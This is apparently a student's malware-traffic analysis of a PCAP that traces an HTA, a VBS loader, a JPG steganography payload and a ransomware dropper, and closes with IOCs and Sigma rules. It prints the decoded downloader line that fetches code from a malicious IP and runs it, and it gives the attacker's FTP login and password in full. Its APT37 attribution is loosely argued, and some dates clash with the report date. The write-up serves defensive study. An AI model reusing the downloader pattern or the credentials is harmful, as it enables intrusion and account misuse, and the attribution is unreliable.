### **THE ANALYZED FILE**

##### 

**PCAP-Based Analysis | Date: 2025-03-12 | Author: BlackOclock**

## **TABLE OF CONTENTS**

### **1. ANALYSIS OVERVIEW**
- 1.1 The Analyzed File (PCAP Only)
- 1.2 Infection Timeline & CVE Mapping

### **2. NETWORK TRAFFIC ANALYSIS**
- 2.1 Protocol Hierarchy – Big Picture
- 2.2 Conversations – Top Talkers & Data Transfer
- 2.3 Endpoints – Tx/Rx Confirmation
- 2.4 HTTP Export Objects – Extracted Files
- 2.5 HTTP Contains Filter – Steganography Check

### **3. NETWORKMINER ANALYSIS**
- 3.1 Extracted Files Overview
- 3.2 File Details (HTA, VBS, TXT)
- 3.3 JA3 / JA3S /JA4 Fingerprints

### **4. ZEEK (ZUI) LOGS ANALYSIS**
- 4.1 File Extraction Confirmation
- 4.2 MD5/SHA1 Hashes & Timestamps
- 4.3 VirusTotal Integration

### **5. EXTRACTED FILES & STATIC ANALYSIS**

### **6. TRIAGE & BEHAVIORAL ANALYSIS**
- 6.1 HTA Triage – mshta.exe Execution
- 6.2 VBS Triage – WScript.exe & PowerShell
- 6.3 TXT Triage – Notepad.exe & Ransomware Behavior

### **7. PROCESS INJECTION ANALYSIS**
- 7.1 Process Tree – mshta → cmd → powershell → csc → Notepad
- 7.2 WriteProcessMemory Events
- 7.3 Token Manipulation (SeDebugPrivilege)

### **8. MEMORY DUMP ANALYSIS**
- 8.1 PowerShell Memory Dumps (HTA) (PID 4424)
- 8.2 comonstraints.vbs Memory Dump (PID 1184)

### **9. C2 DETECTION & FINGERPRINTING**
- 9.1 Jarm / JA4 Analysis
- 9.2 GreyNoise & Shodan Pivoting & C2 Infrastructure Mapping

### **10. EXFILTRATION ANALYSIS**
- 10.1 FTP Traffic – 89.39.83.184
- 10.2 Stolen Credentials & Contact Lists

### **11. RANSOMWARE BEHAVIOR**
- 11.1 foeMMBIG.txt Execution
- 11.2 Notepad.exe as Injection Target
- 11.3 Impact Analysis

### **12. THREAT INTELLIGENCE**
- 12.1 VirusTotal & MalwareBazaar Results
- 12.2 MITRE ATT&CK Mapping
- 12.3 APT37 (ScarCruft) Correlation

### **13. DETECTION ENGINEERING**
- 13.1 Sigma Rules

### **14. CONCLUSION & IOCs**
- 14.1 Full Attack Chain Summary
- 14.2 Indicators of Compromise (IPs, Hashes, Domains)
- 14.3 Recommendations

                                           NOTE!!! In this analysis, 'JUST' PCAP file was used! ZIP files weren't needed;

                                             ##**1. ANALYSIS OVERVIEW**



Shape 1: downloaded source files in malware-traffic-analysis.net - 'JUST' PCAP file was used\

2025-01-09 (THURSDAY): CVE-2017-0199 XLS --> HTA --> VBS --> STEGANOGRAPHY --> DBATLOADER/GULOADER STYLE MALWARE

                                          ##**2. NETWORK TRAFFIC ANALYSIS**

2.1-Protocol Hierarchy – Big Picture



I started with Protocol Hierarchy to get a big-picture view of the traffic. This shows the volume of each protocol used. As shown in the figure, TLS accounts for 82.4% of all traffic. Additionally, Media Line and Line-Based data are also present. However, to better understand the network activity, we need to examine Conversations and Endpoints.

2.2-Conversations – Top Talkers & Data Transfer



We use Conversations to detect IP pairs that have the most data transfer between them. The analysis shows that 10.9.1.101 (host) and 104.17.201.1 have the highest traffic volume. Ports 80 and 443 were used for this data transfer. Additionally, we see that 3 MB of data was transferred to 10.9.1.101 (host) from 104.17.201.1. Another critical finding is the connection on 21 port cause of the connection from the WAN IP (89.39.83.184), which suggest potential exfiltration. But we are not sure now, cause we don't know yet about it. We need a proof!

2.3- Endpoints



We use Endpoints to identify the top talkers on the network. 104.17.201.1 has 3MB has 3 MB of transmitted data (Tx) and also 10.9.1.101 has 3MB has 3 MB of received data (Rx). Additionally, the top talkers are 104.17.201.1 as the source and 10.9.1.101 as the destination.

2.4- HTTP Export Objects



Export is used to identify files,data,emails, etc. transferred over the network. Everytime,when we analyze pcap, we should just check here to see which packets contain which data. Well we noted 88,132,2457 and 2468 packets.

2.5- HTTP Contains Filter



If there is a http protocols on the network. We should check png,zip,jpg,jpeg ( Steganography ) as a media on filter, Cause attackers often use malicious codes on media files to bypass antivirus detection.

#Example: http contains ".png" or http contains ".jpg" or http contains ".jpeg" or http contains ".zip"

Just we are seeing why this filter is important,when 80 port is used on the network. in here there is a .hta which is sended on media files at 47 packet. But when we use export to identify files,there wasn't. 

                                            ##**3. NETWORKMINER ANALYSIS**

- 3.1 File Details (HTA, VBS, TXT)



We can use networkminer to identify faster on PCAP. If you use REMnux or Linux system , you can write on terminal ( networkminer pcap_name )

Frame =  47    Filename= seemebestthingsevermeetgivenbestthingsfornewways | Extension = .hta | Size = 47 KB | Source IP = 192.3.27.144 
Frame = 132 | Filename= comonstraints | Extension = .vbs | Size = 223 KB | Source IP = 107.172.31.5 
Frame = 2457 | Filename = foeMMBIG | Extension =  .txt | Size= 325 KB | Source IP = 107.172.31.5 

- 3.2 JA3 / JA3S /JA4 Fingerprints



**JA3 Hashes:**
- `06843d66057fc9cbe42e9d690308903` (Frame 8)
- `62136a81b5b727d039d8160d188863aa` (Frame 14)
- `3c4eb72b882d4d1442c67ce73f1292a9` (Frame 140)

**JA4 Fingerprints:**
- `t13d1516h2_8daaf6152771_02713d6af862`
- `t13d201000_2b729b4bf63_29829a46703f`

Well, but why we need JA4 and JA3 Hashes ? There can be a question what is JA3 and JA4?

Let me explain; JA3 and JA4 are techniques used to fingerprint TLS clients and servers based on the parameters of the TLS handshake.JA3 creates an MD5 hash of the TLS handshake's client hello packet, uniquely identifying the client application (e.g., browser, malware).

JA4 is a newer technique.It is like a fingerprint for internet traffic. Just like humans have unique fingerprints, every software that connects to the internet leaves a unique mark. More helpful to find C2 server.

                                            ##**4. ZEEK (ZUI) LOGS ANALYSIS**

- 4.1 File Extraction Confirmation, MD5/SHA1 Hashes & Timestamps , VirusTotal Integration

Zeek logs were used to verify the extracted files from HTTP traffic. The `files.log` shows the following entries:

These hashes were later used for VirusTotal lookups.



Hta (seemebestthing…)

MD5	e90ae8ec16ea2056caaa64ac13a31373
SHA1	8041abda3769b97d8e8b980c6a77fcd2829d715
SHA256	df215a01f6a83014a148c6e407cdc8422e9119a88b4220a1321b2986ea9aef63



MD5     3f691c4d5e1b53d16964d30e35863f77
SHA1    9ade8197b6f8828f384d5431a1d3a1b00e162782
SHA256  a666a99f2056082802f4597f180f891582a527324a16d34b4755ed63e5467882



MD5	9409dc8763c7d40af120ad693545ef98
SHA1	bec5f3f43449189ebf5dadf314288acace4828d7
SHA256	018648727f760e361eb4efa7f955a7815a197224c23016b321ab954767b45b82

                                   ##**5. EXTRACTED FILES & STATIC ANALYSIS**

In here we will export all files from pcap on desktop and we will analysis with binwalk



The HTA file looks clean. I couldn't find any hidden data. It seems like a normal text file.

The VBS file is different. I found two things inside:

Some Base64 data and an HTML document
This means the VBS file has multiple layers. The attacker tried to hide code inside it.

The TXT file gave me a strange output. It says "Broadcom header", which doesn't make sense for a text file. Maybe the file is broken, or there is another layer inside. I need to run it in a sandbox to understand more

                                         ##**6. TRIAGE & BEHAVIORAL ANALYSIS**

- 6.1 HTA Triage – mshta.exe Execution

I ran the HTA file in a sandbox. Here is what happened:



We have result of hta. That score 8/10 by Triage.



Process chain with 5 steps:
 mshta.exe (PID 1080) started
 It launched cmd.exe (4952)
 cmd.exe launched powershell.exe (4424)
 PowerShell enabled SeDebugPrivilege (to access other processes)
 WriteProcessMemory was used multiple times for code injection

**Injection chain:**

mshta.exe (1080) → cmd.exe (4952) → powershell.exe (4424) → csc.exe (4432) → unknown process (3332)

PowerShell also checked running processes (discovery) and looked at the system language (probably to avoid sandboxes).

MITRE techniques I saw for hta :

  T1059.001 (PowerShell)
  T1059.003 (cmd)
  T1057 (process discovery)
  T1134 (token manipulation)
  T1055 (process injection)
  T1614.001 (language detection)



 well we see in here FromString64Base in PowerShell command by cmd.exe. We have to decode it on CyberChef to see code in base64.



In the PowerShell command, I found a Base64 string. After decoding it with CyberChef, I saw this:

URLDownloadToFile(0, "http://107.172.31.5/comonstraints.vbs", "...", 0, 0) Start-Sleep(3) Invoke-Expression "..."

so it means that, from 107.172.31.5 download comonstraints.vbs and 3 seconds sleep and run. Well in next step comonstraints.vbs will be downloaded.

- 6.2 VBS Triage – WScript.exe & PowerShell



We have result of vbs. That score 10/10 by Triage.

Process chain:
Wscript.exe run and it launched PowerShell.exe

Well in picture if we check codes in process. We can #x#.GIBMMeof/5.13.271.701//:p##h  ----> There is an encoded path . http://107.172.31.5/foeMMBIG.txt( which was seen in export of PCAP) 

and also this a site https://res.cloudinary.com/dnkr4s5yg/image/upload/v1735420882/givvuo2katk3jnggipgn.jpg,which is malicious code inside of jpg. The JPG has <BASE64_START> and <BASE64_END> tags. Between them, so it means that there is hidden code.The hidden text is actually Base64 but written backwards. The script reverses it first, then decodes it.After decoding, it becomes a small program (.NET assembly) and runs on the computer.

I tried downloading jpg.



But i couldn't get it. Maybe this address was closed. The VBS file downloads a picture, finds hidden code inside it, fixes it, and runs it. This is called steganography – hiding things inside images.

MITRE techniques:

T1012 - Query Registry
T1082 - System Information Discovery
T1055 - Process Injection
T1057 – Process Discovery
T1134 – Access Token Manipulation

- 6.3 TXT Triage – Notepad.exe & Ransomware Behavior

-The file was opened with Notepad.exe (PID 4600)
- Notepad then injected code into itself (process injection)
- Files on the desktop started getting encrypted
- A ransom note appeared as txt

This confirms that `foeMMBIG.txt` is actually a ransomware dropper.

  MITRE techniques:
- T1055 (Process Injection)

                                        ##**7. PROCESS INJECTION ANALYSIS**

7.1 Process Tree

mshta.exe (1080) → cmd.exe (4952) → powershell.exe (4424) → csc.exe (4432) → Notepad.exe (4600)

7.2 WriteProcessMemory Events

PID 1080 (mshta.exe) wrote to PID 4952 (cmd.exe)
PID 4952 (cmd.exe) wrote to PID 4424 (powershell.exe)
PID 4424 (powershell.exe) wrote to PID 4432 (csc.exe)
PID 4432 (csc.exe) wrote to PID 3332 (unknown)

7.3 Token Manipulation

PowerShell (PID 4424) enabled SeDebugPrivilege, allowing it to access other processes.

                                         ##**8. MEMORY DUMP ANALYSIS**

- 8.1 PowerShell Memory Dumps(HTA) (PID 4424)

When the malware ran, the sandbox took memory snapshots of PowerShell (PID 4424). These snapshots save what was in the computer's RAM at that moment.

I found more than 20 memory dump file



- 8.2 comonstraints.vbs Memory Dump (PID 1184)

The VBS file (run by WScript.exe, PID 1184) also created memory dumps. These dumps are mostly 64 KB in size. This is normal for small allocations. But I checked for memory dumps of Notepad.exe (PID 4600), but there were none. This is interesting because we know Notepad was used to open foeMMBIG.txt.

                                    ##**9. C2 DETECTION & FINGERPRINTING**

- 9.1 Jarm / JA4 Analysis

Only Jarm is printed from 2 IPs

- 9.2 GreyNoise & Shodan Pivoting & C2 Infrastructure Mapping

I extracted JA4 fingerprints from NetworkMiner and searched them in GreyNoise. I found 25 IPs flagged as malicious with the same JA4 fingerprint. Then I searched all these IPs in Shodan to check their open ports and services.

This list was created by checking GreyNoise, and these IPs are flagged as malicious in GreyNoise:

*34.122.147.229 ( Web application brute-force login attempts - according to source Guardpot - 7 months ago
This IP was involved in 1222 events across 2 distinct attack types. Attacks: tcp-portscan (1177), fortinet-login (45). First seen: 2024-05-07 23:10 UTC, Last seen: 2025-07-17 17:28 UTC. 3/94 security vendors flagged this IP address as malicious . Not After: 2020-11-30 22:10:40 )

* 107.189.1.175 - result of shodan C: Luxembourg Org : Buy VM Open Ports: 80 / 443 / 9001 / 9030

* 104.197.69.115( Web application brute-force login attempts - according to source Guardpot - 5 months ago
This IP was involved in 1159 events across 2 distinct attack types. Attacks: tcp-portscan (1124), fortinet-login (35). First seen: 2024-07-11 04:26 UTC, Last seen: 2025-09-25 12:08 UTC. 4/94 security vendors flagged this IP address as malicious )

* 34.72.176.129 ( Web application brute-force login attempts - according to source Guardpot - 5 months ago
This IP was involved in 1233 events across 2 distinct attack types. Attacks: tcp-portscan (1201), fortinet-login (32). First seen: 2024-07-11 04:26 UTC, Last seen: 2025-09-25 12:12 UTC.
Find more information on CrowdSec CTI - according to source CrowdSec - 1 year ago
Behaviors: Exploitation attempt / HTTP Bruteforce / HTTP Crawl + 2 more. Full details on CrowdSec CTI  
6/94 security vendors flagged this IP address as malicious

* 34.123.170.104 ( Web application brute-force login attempts - according to source Guardpot - 1 month ago
This IP was involved in 1141 events across 3 distinct attack types. Attacks: tcp-portscan (1097), fortinet-login (42), web-login (2). First seen: 2024-05-23 14:07 UTC, Last seen: 2026-01-26 05:22 UTC.
Find more information on CrowdSec CTI - according to source CrowdSec - 1 year ago
Behaviors: HTTP Crawl / HTTP DoS / HTTP Exploit + 1 more. Full details on CrowdSec CTI )
3/94 security vendors flagged this IP address as malicious

* 121.127.42.69 ( 3/94 security vendors flagged this IP address as malicious)

* 185.220.101.2 result of shodan ( Hostnames:berlin01.tor-exit.artikel10.org Country : German Organization: Artikel10 e.V. ISP : Stiftung Erneuerbare Freiheit (It's TOR) Ports : 80/443/9001/9002

* 185.220.101.162 ( Hostnames: tor-exit-162.relayon.org Country : German / Organization:CIA TRIAD SECURITY LLC
ISP : Stiftung Erneuerbare Freiheit) 

* 205.169.39.24 Network port scanning and reconnaissance - according to source Guardpot - 8 months ago
This IP was involved in 86 events across 1 distinct attack types. Attacks: tcp-portscan (86). First seen: 2024-08-22 22:29 UTC, Last seen: 2025-07-04 17:29 UTC. 
* 47.254.76.66 ( Cloud Provider : Alibaba Cloud Country : USA open ports : 22 Operation system : Linux

*47.251.118.89 (Cloud Provider : Alibaba Cloud Country : USA open ports : 22 Operation system : Linux) 

* 107.189.12.7( Hostnames : tor.privatebrowsing.org Country Luxembourg open ports: 80)
* 47.88.18.245 ( Country USA oS: Linux open port : 22)
* 79.127.248.2 ( 4/94 security vendors flagged this IP address as malicious Country Us)
* 185.126.82.201( Country : USA port : 1080)
* 45.92.19.139 (Country : USA port : 59511)
* 47.251.186.126( Country : USA port : 22)
* 79.127.221.66 (Country : USA port : 1080)
* 185.241.208.136 ( Country: Poland Hostnames ns2.rdp.rs open ports : 111/8440/9001)
* 47.89.246.29 ( Country : USA port : 22)
* 185.220.101.110 ( Hostnames: tor-exit-110.digitalcourage.de open ports : 80/123/443/8080)
* 5.77.252.202 ( Hostnames :host-202.252.77.5.ucom.am Country : Armenia open ports : 1701/8291)
* 124.198.132.172(Tor) ( Country : USA open ports : 111/8110/9001)
* 185.220.101.9 (Tor) ( HostName : berlin01.tor-exit.artikel10.org Country : Poland open ports : 80/443/9001/9002)
* 213.230.93.13 ( 4/94 security vendors flagged this IP address as malicious Country : uzbekishtan)
* 138.199.140.203 ( hostname :static.203.140.199.138.clients.your-server.de Country : German Open Ports : 22 / 8080 / 8443 / 9090/ 9100 / 10000 / 10250)

                                     ##**10. EXFILTRATION ANALYSIS**

- 10.1 FTP Traffic – 89.39.83.184

When we check 89.39.83.184, we see that ip has connect on 21 port with host. If we will click one of packs on 21 ftp and Follow --- > TCP STREAM, we see email and password of the attacker



- 10.2 Stolen Credentials & Contact Lists

when we check files on networkminer there were 2498(PW_user1_DESKTOP.html) and 2516(Contacts_Thunder.txt) packet number. After exporting thats files and there are information of username and password for phising attack( I guess) or stealing accounts.



I searched the FTP server IP (89.39.83.184) on Shodan to learn more about the attacker's infrastructure.



                                         ##**12. THREAT INTELLIGENCE**

12.1 VirusTotal & MalwareBazaar Results

The hashes obtained from Zeek logs (Section 4) were checked on VirusTotal and MalwareBazaar. All files were confirmed malicious:

**HTA file:** 33/61 detection, identified as **AgentTesla**
**VBS file:** 31/62 detection, identified as **AgentTesla / Talu**
**TXT file:** 25/62 detection, identified as **Zapchast / Bhgd** (ransomware dropper)

See Section 14.2 for the full hash list.

12.2 MITRE ATT&CK Mapping

T1059.001 - PowerShell
T1059.003 - cmd
T1134 - token manipulation
T1614.001 - language detection
T1012 - Query Registry
T1082 - System Information Discovery
T1055 - Process Injection
T1057 – Process Discovery

12.3 APT37 (ScarCruft) Correlation

Why does this attack look like APT37?

What we saw in this attack - APT37 is known for
HTA file used to start the infection - APT37 uses HTA files a lot 
PowerShell with base64 commands - APT37 loves PowerShell 
Steganography (JPG with hidden code) - APT37 hides code in images 
Process injection (mshta → cmd → powershell → csc) - APT37 injects code into trusted processes 
FTP exfiltration of stolen data	- APT37 steals credentials and files 
Ransomware at the end - APT37 now uses ransomware too 
Targets maybe in Europe	- APT37 is active in Europe 
Conclusion
The techniques we saw in this attack match what APT37 usually does. It's not 100% proof, but it looks like APT37 (ScarCruft). A North Korean hacker group is probably behind this.
 

                                            ##**13. DETECTION ENGINEERING**

- 13.1 Sigma Rules

title: SeDebugPrivilege in PowerShell
description: Detects PowerShell enabling SeDebugPrivilege (possible token manipulation)
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\powershell.exe'
    CommandLine|contains: 'SeDebugPrivilege'
  condition: selection

title: FTP Exfiltration
description: Detects FTP connections from processes that shouldn't use FTP
logsource:
  category: network_connection
  product: windows
detection:
  selection:
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
      - '\wscript.exe'
    DestinationPort: 21
  condition: selection

title: PowerShell Download
description: Detects PowerShell downloading files from the internet
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\powershell.exe'
    CommandLine|contains|all:
      - 'URLDownloadToFile'
      - 'http'
  condition: selection

title: Notepad from Temp
description: Detects Notepad opening files from Temp folder (possible process injection)
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\notepad.exe'
    CommandLine|contains: '\Temp\'
  condition: selection

NOTE! I know this is basic but just im trying to learning sigma-rules.

                                        ##**14. CONCLUSION & IOCs**

14.1 Full Attack Chain Summary

The infection started with a malicious **HTA file** downloaded from 192.3.27.144. When opened, it launched a chain of processes:

mshta.exe → cmd.exe → powershell.exe → csc.exe → Notepad.exe

Key findings:
- PowerShell enabled SeDebugPrivilege and used WriteProcessMemory for code injection
The VBS file downloaded a JPG from Cloudinary. The JPG contained hidden Base64 data between `<BASE64_START>` and `<BASE64_END>` tags.
The script extracted this data, reversed it, and decoded it into a .NET assembly. This assembly was loaded into memory and executed. **Although we couldn't download the JPG (401 error), the code strongly suggests this was the mechanism that downloaded the final payload (`foeMMBIG.txt`).**

Threat actor: APT37 – techniques match known TTPs

14.2 Indicators of Compromise

IP Addresses:

IP = 107.172.31.5 | Role = C2 server (VBS, TXT download)
IP = 89.39.83.184 | Role = FTP exfiltration server
IP = 192.3.27.144 | Role = HTA download source
IP = 104.17.201.1 | Role = First stage download (3 MB)
25 malicious IPs from GreyNoise | See full list in Section 9.2

Domains:

Domain = res.cloudinary.com    Role= Steganography (JPG with hidden code)
Domain = ip-api.com Filename= index.B23BDC8E.txt(false) Role = Sandbox evasion check

File Hashes:

(seemebestthing…).hta
MD5	e90ae8ec16ea2056caaa64ac13a31373
SHA1	8041abda3769b97d8e8b980c6a77fcd2829d715
SHA256	df215a01f6a83014a148c6e407cdc8422e9119a88b4220a1321b2986ea9aef63

comostraints.vbs
MD5     3f691c4d5e1b53d16964d30e35863f77
SHA1    9ade8197b6f8828f384d5431a1d3a1b00e162782
SHA256  a666a99f2056082802f4597f180f891582a527324a16d34b4755ed63e5467882

foeMMBIG.txt
MD5	9409dc8763c7d40af120ad693545ef98
SHA1	bec5f3f43449189ebf5dadf314288acace4828d7
SHA256	018648727f760e361eb4efa7f955a7815a197224c23016b321ab954767b45b82

 
                                                       FTP Credentials:

- Username: biggiemma@horeca-bucuresti.ro
- Password: e)rwKbkKP8-m0

14.3 Recommendations

- **Block all IPs and domains** listed in IOC section
- **Monitor for JA3/JA4 fingerprints** to detect similar C2 infrastructure
- **Use Sigma rules** (see Section 13) in your SIEM
- **Train users** on phishing attacks that deliver HTA files
- **Enable PowerShell logging** and monitor for SeDebugPrivilege usage
- **Isolate and investigate** any host with similar process injection patterns

